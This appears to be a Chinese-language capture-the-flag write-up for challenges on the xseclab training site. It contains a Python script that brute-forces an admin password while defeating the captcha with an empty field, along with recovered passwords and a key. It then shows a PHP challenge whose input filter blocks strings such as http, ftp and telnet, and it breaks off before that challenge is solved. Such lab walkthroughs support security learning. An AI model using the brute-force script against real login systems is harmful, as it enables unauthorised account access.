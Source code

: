 ## 第六题：
>逗比验证码第二期 分值: 150 
验证便失效的验证码
[地址]:(http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php)

__思路：将验证码参数变为’’__
```python
import requests
import re
s=requests.Session()
url="http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/login.php"
head={'cookie':'PHPSESSID=844e5142519e671ce9180b9a47588675'}
for num in range(1000,10000):
    data={'username':'admin','pwd':num,'vcode':'','submit':'submit'}
    res=s.post(url,data=data,headers=head).content.decode('utf-8')
    if u'pwd error' in res:
        print('正在尝试',num,'-----密码错误！')
    if u'vcode error' in res:
        print('验证码错误，请重新查看并输入正确验证码！')
    # print(res)
    if u'error' not in res:
        print(num,'-------正确')
        print(res)
        break
```
__得到密码为1228__

## 第七题
>逗比的验证码第三期（SESSION） 分值: 150 
尼玛，验证码怎么可以这样逗比。验证码做成这样，你家里人知道吗？
[地址]:(http://lab1.xseclab.com/vcode3_9d1ea7ad52ad93c04a837e0808b17097/index.php）

__思路：发现这关和上一关没多大区别，是提示要保持session？ 前一关貌似也是那样做的呀套用上一关脚本，直接出答案.....__
1298 -------正确
key is LJLJLfuckvcodesdf#@sd

## 第八题：
>微笑一下就能过关了 分值: 150 
尼玛，碰到这样的题我能笑得出来嘛... 
[地址]:(http://lab1.xseclab.com/base13_ead1b12e47ec7cc5390303831b779d47/index.php)
__思路：看到题目有点懵，难道要刷脸吗？看下源代码先__

```php
<?php  
    header("Content-type: text/html; charset=utf-8");
    if (isset($_GET['view-source'])) { 
        show_source(__FILE__); 
        exit(); 
    } 
    include('flag.php'); 
    $smile = 1;  
   if (!isset ($_GET['^_^'])) $smile = 0;  
    if (preg_match ('/\./', $_GET['^_^'])) $smile = 0;  
    if (preg_match ('/%/', $_GET['^_^'])) $smile = 0;  
    if (preg_match ('/[0-9]/', $_GET['^_^'])) $smile = 0;  
    if (preg_match ('/http/', $_GET['^_^']) ) $smile = 0;  
    if (preg_match ('/https/', $_GET['^_^']) ) $smile = 0;  
    if (preg_match ('/ftp/', $_GET['^_^'])) $smile = 0;  
    if (preg_match ('/telnet/', $_GET['^_^'])) $smile = 0;  
    if (preg_match ('/_/', $_SERVER['QUERY_STRING'])) $smile = 0; 
    if ($smile) { 
        if (@file_exists ($_GET['^_^'])) $smile = 0;  
    }  
```